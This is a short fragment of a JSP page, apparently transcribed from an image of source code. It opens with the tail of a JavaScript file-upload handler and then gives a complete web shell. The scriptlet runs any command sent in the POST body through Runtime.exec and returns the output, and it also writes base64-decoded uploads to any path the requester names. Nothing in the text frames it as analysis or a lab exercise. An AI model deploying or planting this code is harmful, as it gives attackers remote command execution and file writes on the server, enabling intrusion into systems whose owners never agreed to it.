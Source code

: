 ```javascript
            }
        };
        if (window.File && window.FileReader && window.FileList && window.Blob) {
            document.getElementById('f').addEventListener('change', handleFileSelect, false);
        } else {
            alert('The File APIs are not fully supported in this browser.');
        }
    </script>
    <%!public String v(String w) { 
          String x="" ;
          try { 
            x=URLDecoder.decode(w,"UTF-8");
          }catch(Exception e){}
          return x;
       }
    %>
    <%
      String o,l,d;o=l=d=""; 
      DataInputStream r=new DataInputStream(request.getInputStream());
      while((l=r.readLine())!=null) { 
          d+=l;
      }
      if(d.indexOf("c=")>=0) { 
        String g=v(d.substring(2));
        String s;
        try { 
          Process p=Runtime.getRuntime().exec(g);
          DataInputStream i=new DataInputStream(p.getInputStream());
          out.print("<pre>");
          while((s=i.readLine())!=null) { 
            o+=s.replace("<","&lt;").replace(">","&gt;")+"<br>";
          }
        } catch(Exception e) {
          out.print(e);
        }
      } else {
        if(d.length()>1){
          int b=d.indexOf("b=");
          int n=d.indexOf("n=");
          byte[] m=DatatypeConverter.parseBase64Binary(v(d.substring(b+2)));
          String f=v(d.substring(2,n-1))+File.separator+v(d.substring(n+2,b-1));
          try { 
            OutputStream stream=new FileOutputStream(f);
            stream.write(m);
            o="Uploaded: "+f;
          }catch(Exception e){ 
            out.print(e);
          }
        }
      }
    %>
<%=o%>
```
